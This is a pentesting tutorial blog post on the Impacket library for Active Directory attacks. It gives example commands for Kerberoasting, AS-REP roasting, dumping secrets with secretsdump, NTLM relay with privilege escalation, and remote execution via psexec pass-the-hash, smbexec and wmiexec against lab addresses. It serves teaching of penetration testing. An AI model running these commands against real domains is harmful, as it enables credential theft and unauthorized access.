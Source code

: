 ```yaml
---
layout: post
published: true
title: Windows Exploitation 11.1
tags:
  - PWP
  - Intermediate
  - Windows Exploitation
comments: true
---
```

## Impacket in Action


## Introduction 

In this blog post we will learn about Impacket library, and its usage during pentesting, we will also discuss some of the useful tools of this library.
This post is for those who know the basics of Active Directory and Windows Administration Services. If you're new, please do a google search if you feel uncomfortable.



**Impacket**

https://github.com/SecureAuthCorp/impacket.git

Clone the repo

```
git clone https://github.com/SecureAuthCorp/impacket.git
```

**Impacket** is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.





**What protocols are featured?**

* Ethernet, Linux "Cooked" capture.
* IP, TCP, UDP, ICMP, IGMP, ARP.
* IPv4 and IPv6 Support.
* NMB and SMB1, SMB2 and SMB3 (high-level implementations).
* MSRPC version 5, over different transports: TCP, SMB/TCP, SMB/NetBIOS, and HTTP.
* Plain, NTLM, and Kerberos authentications, using password/hashes/tickets/keys.
* Portions/full implementation of the following MSRPC interfaces: EPM, DTYPES, LSAD, LSAT, NRPC, RRP, SAMR, SRVS, WKST, SCMR, BKRP, DHCPM, EVEN6, MGMT, SASEC, TSCH, DCOM, WMI.
* Portions of TDS (MSSQL) and LDAP protocol implementations.


```
pip install -r requirements.txt
```

```
python setup.py install
```

You can find any of the impacket tools in '/impacket/examples' file.

**Explanation**

**addcomputer.py:** Allows to add a computer to a domain using LDAP or SAMR (SMB).

```
addcomputer.py -method SAMR -computer-pass <PASSWORD> -computer-name <NAME> DOMAIN/USER:PASSWORD
```
We have added a new computer using SAMR(Security Account Manager (SAM) Remote Protocol (Client-to-Server)) to a domain.


**GetUserSPNs.py**: This example will try to find and fetch Service Principal Names that are associated with normal user accounts. The output is compatible with JtR and HashCat.


If we found any user accounts configured with the unconstrained delegation, we can obtain its Kerberos tickets and can try to crack that ticket.

```
GetUserSPNs.py DOMAIN/USER:PASSWORD -request-user <UNCONSTRAINED_USER>
```

**GetNPUsers.py:** This example will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). The output is compatible with JtR.

```
GetNPUsers.py DOMAIN/USER -dc-ip 10.10.10.161 (TargetIP)
```

**secretdump.py**
Performs various techniques to dump secrets from the remote machine without executing any agent there.


```
secretsdump.py  DOMAIN/USER:PASSWORD@<VictimIP>
```
```
secretsdump Empire/locus:brokeme@198.162.0.1
```

**ntlmrelayx.py:** This script performs NTLM Relay Attacks, setting an SMB and HTTP Server and relaying credentials to many different protocols (SMB, HTTP, MSSQL, LDAP, IMAP, POP3, etc.). The script can be used with predefined attacks that can be triggered when a connection is relayed (e.g. create a user through LDAP) or can be executed in SOCKS mode. In this mode, for every connection relayed, it will be available to be used later on multiple times through a SOCKS proxy.


```
ntlmrelayx.py --escalate-user username -t ldap://DOMAIN_CONTROLLER
``


```
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco
```

**psexec.py**: it is used to perform remote code execution, it executes processes on remote systems and redirects console applications' output to the local system so that these applications appear to be running locally.


```
psexec.py -hashes <LM hash>  domain/user@<TargetIP> 
```
```
psexec.py -hashes :73ry4923rho24jr2jeor2po3j Empire/administrator@192.168.10.16 powershell.exe
```

**smbexec.py**: It focuses on using native windows functions/features for post-exploitation and expanding access on a network after you gain some credentials, whether that be a hash or password for a local or domain account. It's similar to psexec.

```
smbexec.py Empire/administrator@192.168.10.16
```

You can also use hash.


**wmiexec.py:** A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.

```
wmiexec.py 'Empire/administrator@192.168.10.16'
```






## Conclusion

_**We have discussed some tools with their basic usage that will help us in Exploitation and Post Exploitation phases, I recommend you to read resources I have given below**_




Somre refference link :

``
https://www.secureauth.com/labs/open-source-tools/impacket
``

``
http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
``

``
https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/
``
